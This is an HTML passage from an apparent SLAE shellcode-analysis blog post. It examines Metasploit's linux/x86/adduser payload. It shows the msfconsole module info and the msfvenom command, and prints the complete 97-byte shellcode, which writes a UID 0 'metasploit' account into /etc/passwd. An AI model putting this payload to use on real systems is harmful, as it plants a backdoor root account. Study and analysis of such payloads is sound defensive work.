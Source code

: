 <li><strong>linux/x86/read_file :</strong> Read up to 4096 bytes from the local file system and write it back out to the specified file descriptor</li>
</ul>
<h2><span style="color:#339966;">1st Shellcode Analysis - adduser&nbsp;</span></h2>
<p style="text-align:justify;">The first <em>shellcode</em> to analyse is the <strong>adduser</strong> system call. Before we continue with the analysis of the specified payload lets see the information provided from <strong>msfconsole</strong></p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">msf5 payload(linux/x86/exec) &gt; use payload/linux/x86/adduser
msf5 payload(linux/x86/adduser) &gt; info

Name: Linux Add User
Module: payload/linux/x86/adduser
Platform: Linux
Arch: x86
Needs Admin: Yes
Total size: 97
Rank: Normal

Provided by:
skape &lt;mmiller@hick.org&gt;
vlad902 &lt;vlad902@gmail.com&gt;
spoonm &lt;spoonm@no$email.com&gt;

Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
PASS metasploit yes The password for this user
SHELL /bin/sh no The shell for this user
USER metasploit yes The username to create

Description:
Create a new user with UID 0</pre>
<p style="text-align:justify;">As we see from the description above the <strong>adduser</strong> payload used to create a new user with UID 0. Also <strong>msfvenom</strong> gives us the option to provide our own password, shell and username. In case the default credentials and default shell are used then as seen above the username and password will be <strong>metasploit</strong> and the shell will be <strong>/bin/sh</strong>&nbsp;</p>
<p style="text-align:justify;">In order to proceed with the analysis we will first generate the payload as follows</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span>#  msfvenom -p linux/x86/adduser -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";</pre>
<p style="text-align:justify;">Also, before moving further to analyse the shellcode with <strong>ndisasm</strong> we will first deploy the shellcode inside a stub file in C&nbsp; in order to be able to run it with <strong>gdb</strong></p>